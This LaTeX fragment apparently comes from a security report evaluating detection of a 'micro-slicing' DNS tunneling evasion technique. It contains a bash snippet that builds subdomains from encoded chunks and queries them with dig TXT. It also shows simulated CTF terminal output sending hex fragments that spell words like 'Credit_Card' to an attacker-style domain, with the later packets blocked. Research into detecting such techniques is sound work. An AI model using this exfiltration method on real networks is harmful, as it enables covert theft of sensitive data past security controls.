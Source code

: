 \documentclass[14pt, a4paper, oneside]{report}
\begin{document}
The micro-slicing scenario evaluates a common DNS tunneling evasion technique that distributes encoded payload fragments across multiple short subdomain labels. Rather than transmitting a large continuous string, the attack generates a sequence of DNS queries containing small hexadecimal segments attached to an attacker-controlled domain. This approach reduces the apparent size of individual labels and attempts to avoid simple length-based detection mechanisms.

\begin{lstlisting}[
language=bash,
backgroundcolor=\color{black!3},
basicstyle=\ttfamily\small,
keywordstyle=\color{chapcolor}\bfseries,
stringstyle=\color{teal},
commentstyle=\color{gray},
numbers=none,
framexleftmargin=4em,
xleftmargin=5.1em,
frame=leftline,
rulecolor=\color{chapcolor},
framesep=8pt,
breaklines=true,
showstringspaces=false,
aboveskip=1em,
belowskip=1em,
captionpos=b,
caption={Payload fragmentation logic for the micro-slicing attack},
label={lst:microslicing}
]
DOMAIN="${CHUNK1}.${CHUNK2}.${CHUNK3}.${MALWARE_ROOT}"
dig TXT "$DOMAIN" @"$GATEWAY_IP"
\end{lstlisting}

\begin{figure}[H]
\centering

\begin{lstlisting}[
language=bash,
backgroundcolor=\color{black!3},
basicstyle=\ttfamily\small,
keywordstyle=\color{chapcolor}\bfseries,
stringstyle=\color{teal},
commentstyle=\color{gray},
framexleftmargin=4em,
xleftmargin=5.1em,
frame=leftline,
rulecolor=\color{chapcolor},
framesep=8pt,
breaklines=true,
showstringspaces=false,
aboveskip=1em,
belowskip=1em,
]
ctf@debian:~$ ./evasion_simulation1.sh
[*] Starting Micro-Slicing Attack...
[SUCCESS] Packet 1  -> 43545f585f.2c53656372.2c53656372.api-telemetry.com
[SUCCESS] Packet 2  -> 2c53656372.7265646974.5f43617264.api-telemetry.com
[SUCCESS] Packet 3  -> 4944 2c4e61.5f43617264.2c53656372.api-telemetry.com
...
[SUCCESS] Packet 31 -> 65745f435f.5f43617264.65745f435f.api-telemetry.com
[FAILED ] Packet 32 -> 50424f4a45.49442c4e61.2c53656372.api-telemetry.com (Blocked)
[FAILED ] Packet 33 -> 5f43617264.49442c4e61.65745f435f.api-telemetry.com (Blocked)
[FAILED ] Packet 34 -> 2c53656372.5f43617264.65745f435f.api-telemetry.com (Blocked)
\end{lstlisting}

\caption{\textit{Representative output of the micro-slicing attack execution}}
\label{fig:micro_output}

\end{figure}
\end{document}
